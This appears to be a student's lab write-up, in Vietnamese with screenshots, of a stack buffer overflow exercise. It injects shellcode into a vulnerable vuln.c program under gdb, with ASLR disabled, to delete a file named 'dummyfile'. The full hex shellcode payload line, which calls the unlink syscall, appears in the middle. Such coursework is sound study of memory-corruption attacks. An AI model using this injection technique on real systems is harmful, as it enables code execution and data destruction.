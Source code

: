 <h1>Phan Dinh Trung - 22110083</h1>

# DELETE DUMMYFILE USING INJECTION CODE

- ## Stack frame of vuln.c:

  ![image](https://github.com/user-attachments/assets/8854fe7e-d8d2-4165-a697-6d20eed9755a)

- ## Tạo `dummyfile`

![Screenshot 2024-09-20 201411](https://github.com/user-attachments/assets/9204e5f5-7ce2-4180-87d3-ea17e4e0fd0a)

- ## Thay đổi shell `/bin/sh`, tắt ngẫu nhiên địa chỉ của hệ điều hành, biên dịch và liên kết mã file_del.asm, sử dụng `for i in $(objdump -d file_del grep "^" cut -f2); do echo -n 'x'$i; done; echo` để lấy địa chỉ mã lệnh trong tệp file_del và in chúng dưới dạng hex

![Screenshot 2024-09-20 201759](https://github.com/user-attachments/assets/75cbbe42-ce9d-413a-81bf-5dc7f45ebc8f)

- ## đặt 2 điểm break tại `0x0804843` và `0x0804846b` để xem sự khác biệt khi ta chạy chương trình

![Screenshot 2024-09-20 201855](https://github.com/user-attachments/assets/85a8f384-303e-45ec-9835-35bd5f629b88)

![Screenshot 2024-09-20 201952](https://github.com/user-attachments/assets/131e9e32-d233-4775-905b-620fb2b7079e)

- ## chạy chương trình với câu lệnh `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xaa\xaa\xaa\xaa')")`

![Screenshot 2024-09-20 202207](https://github.com/user-attachments/assets/1bff1fe8-0155-45fd-8b1e-4fd0acacd3f4)

![Screenshot 2024-09-20 202246](https://github.com/user-attachments/assets/708b3980-4ce4-49e1-a417-95987ec4d4f8)

## => Ta thấy tại break 2 thì chỉ có 3 giá trị đầu tiên là giống với hexstring mà ta đưa vào chương trình, còn lại mọi thứ đều khác.

- ## `\x0a` là \n trong hexstring

## => Vì vậy ta nên thay đổi lại đoạn code.

- ## Code ban đầu:

![Screenshot 2024-09-20 202414](https://github.com/user-attachments/assets/7488a3f6-6352-4843-9206-300e803cc4be)

- ## Code sau khi đã thay đổi

  ![Screenshot 2024-09-20 202835](https://github.com/user-attachments/assets/d6f3359d-70b5-4b86-a439-570c44e8da2d)

- ## Chạy lại chương trình. Lúc này ta thấy đã truyền đúng

  ![Screenshot 2024-09-20 203911](https://github.com/user-attachments/assets/a537b1c0-c035-42cb-b567-9d0df2495506)

- ## ta thay đổi địa chỉ `0xffffd68c` thành địa chỉ của esp `0xffffd648`, và địa chỉ `0xffffd66b` thành `\x00` rồi tiếp tục chương trình

![Screenshot 2024-09-20 204250](https://github.com/user-attachments/assets/0d8b8bde-0d69-47a3-9014-fc52dbcc4564)

- ## Tuy vậy khi ta kiểm tra thì file `dummyfile` vẫn còn

  ![Screenshot 2024-09-20 204319](https://github.com/user-attachments/assets/4156ab0f-32b8-40a4-a7ae-c3f1cb7ed28b)

- ## Kiểm tra `file-del`

![Screenshot 2024-09-20 204413](https://github.com/user-attachments/assets/3d04b84d-9d9d-4f82-94a4-e92599f68179)

- ## Ta thấy dummyfile được lưu trữ tại địa chỉ `0x0804807a`, và lệnh `mov $0x804807a, %ebx`, vì vật, việc xóa thực chất chỉ là làm thanh ghi `ebx` không còn chỉ đến địa chỉ nó nữa. vì thế ta cần đặt lại địa chỉ `dummyfile` trong chương trình đến địa chỉ của `ebx`.

  ![Screenshot 2024-09-20 205459](https://github.com/user-attachments/assets/51868926-5de8-494d-b022-fffdc1efc075)

- ## Kết quả:

  ![Screenshot 2024-09-20 205521](https://github.com/user-attachments/assets/186d71f4-e244-4244-8640-f6727f9781b9)

## => Ta đã xóa được file `dummyfile`
